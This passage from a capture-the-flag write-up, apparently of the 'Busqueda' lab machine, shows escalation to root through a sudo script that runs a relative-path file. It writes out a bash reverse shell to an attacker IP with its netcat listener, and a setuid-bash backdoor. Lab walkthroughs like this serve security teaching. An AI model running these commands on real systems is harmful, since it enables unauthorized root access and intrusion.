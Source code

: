 While analysing the code, we find an if statement for the `full-checkup` option. We can understand that it tries to run the script named `full-checkup.sh` from the current directory. From the error "Something went wrong", it is also understandable that while we ran the python script earlier, it wasn't able to find "full-checkup.sh".

### Shell as root

So, we can create our own `full-checkup.sh` in the current working directory, put in any bash code and then run the `system-checkup.py` python script. Now, there are two ways to get a root shell.

#### Method-1: netcat Reverse shell

The easiest way would be to start a netcat listener and catch the reverse shell, which uses the below code.

```bash
svc@busqueda:/tmp$ echo -ne '#!/bin/bash\n/bin/bash -i >& /dev/tcp/10.10.14.21/8888 0>&1' > full-checkup.sh
svc@busqueda:/tmp$ chmod +x full-checkup.sh
svc@busqueda:/tmp$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup

[+] Done!
```

And we catch the reverse shell.

```bash
0hmsec@kali:-$ nc -nvlp 8888
listening on [any] 8888 ...
connect to [10.10.14.21] from (UNKNOWN) [10.10.11.208] 45534
root@busqueda:/tmp# 

```

#### Method-2:

While googling around I came across [this](https://0xdf.gitlab.io/2022/05/31/setuid-rabbithole.html) article by [0xdf](https://www.twitter.com/0xdf_). The article speaks about a `setuid` rabbit hole, which also gives us the root shell.

```bash
svc@busqueda:/tmp$ echo -e '#!/bin/bash\n\ncp /bin/bash /tmp/temp_bash\nchmod 4777 /tmp/temp_bash' > full-checkup.sh
```

Here, we are writting a script which will copy the `/bin/bash` to a temporary file `/tmp/temp_bash` and also gives this temporary file full permission including the setuid bit. Thus, by running `/tmp/temp_bash`, we will be given a root shell.

```bash
svc@busqueda:/tmp$ chmod +x full-checkup.sh 
svc@busqueda:/tmp$ sudo python3 /opt/scripts/system-checkup.py full-checkup
svc@busqueda:/tmp$ /tmp/temp_bash -p
temp_bash-5.1# whoami
root
```
